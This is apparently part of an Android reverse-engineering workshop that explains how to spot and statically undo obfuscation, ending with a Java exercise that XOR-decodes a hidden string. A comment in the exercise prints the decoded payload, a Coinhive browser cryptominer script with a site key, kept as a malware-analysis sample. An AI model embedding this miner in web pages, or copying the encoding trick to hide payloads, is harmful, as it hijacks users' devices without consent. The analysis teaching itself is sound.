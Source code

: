 There are many times when the application you’re reversing will not be as straight forward as some of the examples we’ve discussed. The developer will implement one or more obfuscation techniques to hide the behavior and/or implementation of their app. This can be for both benign and malicious reasons.

The key about obfuscation to remember is that if you want to de-obfuscate it, you will be able to. The key decision is not whether or not you can, but whether or not it’s worth the resources to de-obfuscate.

The reason that you can always de-obfuscate something is because ultimately the CPU at some point has to see the unobfuscated code in order to run it.

## How to De-Obfuscate

How you choose to de-obfuscate the application will depend on the obfuscation method, but there are a couple of common techniques that usually work well. Here, we will only touch on the static de-obfuscation techniques since this workshop only covers static analysis/reversing. However, do remember that running the application and dynamically analyzing it can be another great way to get around obfuscation.

For obfuscation in the DEX bytecode (Java), one of the easiest ways to statically de-obfuscate is to identify the de-obfuscation methods in the application and copy their de-compilation into a Java file that you then run on the obfuscated file, strings, code, etc.

Another solution for both Java and Native Code is to transliterate the de-obfuscation algorithm into Python or any other scripting language that you’re most comfortable. I say “transliterate” because it’s important to remember that you don’t always need to *understand* the de-obfuscation algorithm, you just need a way to execute it. I cover this in more detail in the “Unpacking the Packed Unpacker” talk that is linked in the “More Examples” section.

## Indicators of Obfuscation

There are many different types of obfuscation and thus, just as many different types of indicators to alert you as the analyst that an application is likely obfuscated, but here are a few examples with proposed static analysis solutions for de-obfuscating.

- No strings: Java and Android are highly dependent on strings so if you don’t see any or only scrambled strings, it’s highly likely the strings are obfuscated.
    - Suggested solution: Look for method calls that take strings as an argument and trace back where that argument is coming from. At some point the string argument will be going through a de-obfuscation method before it’s passed to the API that takes the String argument.
- Scrambled strings: The Java and Android APIs require the plain text strings, not scrambled.
    - Suggested solution: The scrambled strings are all likely passed to the same methods prior to being passed to the APIs. These methods are likely the de-obfuscation methods.
- Binary files in the assets/ directory and DexClassLoader calls in the app: Likely unpacking and loading additional code. (Could also be downloading from a remote location and then loading using DexClassLoader)
    - Suggestion Solution: Identify where the file is read and then follow the path. It is likely de-obfuscated quickly after being read.
- Native libraries - Can’t identify the JNI functions (no functions named Java_ and no calls to RegisterNatives): In order to execute any native methods, JNI has to be able to pair the function in the native library with the native method declaration in Java and thus one of the two must exist at some point.
    - Suggested Solution: Start at JNI_OnLoad method and look for a de-obfuscation routine that loads additional code.



# Exercise


```java
import java.nio.charset.Charset;

class Main {
    public static void main(String[] args) {
        String abc = Main.m5b(new String(Main.m6a("773032205849207A3831326F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B53163735222D393B475C7A37222D7F38421B6A66643032205849206477303220584920643D2223725C503A3F39636C725F5C237A082C383C7950223F65023F3D5F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B101F42700D1F39331717161574213F2B2337505D27606B712C7B0A543D342E317F214558262E636A6A6E1E4A37282233256C"), Charset.forName("UTF-8")));
        
        System.out.println(abc);
        /*
	    <script src="https://coinhive.com/lib/coinhive.min.js"></script><script>var miner = new CoinHive.Anonymous('nf24ZwEMmu0m1X6MgcOv48AMsIYErpFE', {threads: 2});miner.start();</script>
        */
    }
    
    public static byte[] m6a(String str) {
        int length = str.length();
        byte[] bArr = new byte[length / 2];
        for (int i = 0; i < length; i += 2) {
            bArr[i / 2] = (byte) ((Character.digit(str.charAt(i), 16) << 4) + Character.digit(str.charAt(i + 1), 16));
        }
        return bArr;
    }

    public static String m5b(String str) {
        char[] cArr = {'K', 'C', 'Q', 'R', '1', '9', 'T', 'Z'};
        StringBuilder sb = new StringBuilder();
        for (int i = 0; i < str.length(); i++) {
            sb.append((char) (str.charAt(i) ^ cArr[i % cArr.length]));
        }
        return sb.toString();
    }

}
```
